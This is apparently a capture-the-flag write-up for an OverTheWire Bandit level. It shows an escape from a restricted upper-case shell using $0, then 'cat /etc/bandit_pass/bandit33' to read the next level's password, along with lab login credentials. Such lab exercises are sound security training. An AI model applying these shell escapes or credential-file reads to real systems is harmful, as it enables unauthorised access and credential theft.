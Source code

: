 # Objetivo
After all this `git` stuff its time for another escape. Good luck!

# Datos de acceso al nivel
ssh bandit32@bandit.labs.overthewire.org -p 2220
rmCBvG56y58BXzv98yZGdO7ATVL5dW8y


# Solución
```
>> $0
$ echo $0
sh
$ ls -la
total 36
drwxr-xr-x  2 root     root      4096 Oct  5 06:19 .
drwxr-xr-x 70 root     root      4096 Oct  5 06:20 ..
-rw-r--r--  1 root     root       220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root     root      3771 Jan  6  2022 .bashrc
-rw-r--r--  1 root     root       807 Jan  6  2022 .profile
-rwsr-x---  1 bandit33 bandit32 15128 Oct  5 06:19 uppershell
$ whoami
bandit33
$ id
uid=11033(bandit33) gid=11032(bandit32) groups=11032(bandit32)
$ cat /etc/bandit_pass/bandit33
odHo63fHiFqcWWJG9rLiLDtPm45KzUKy
$
```

# Notas adicionales
 

# Referencias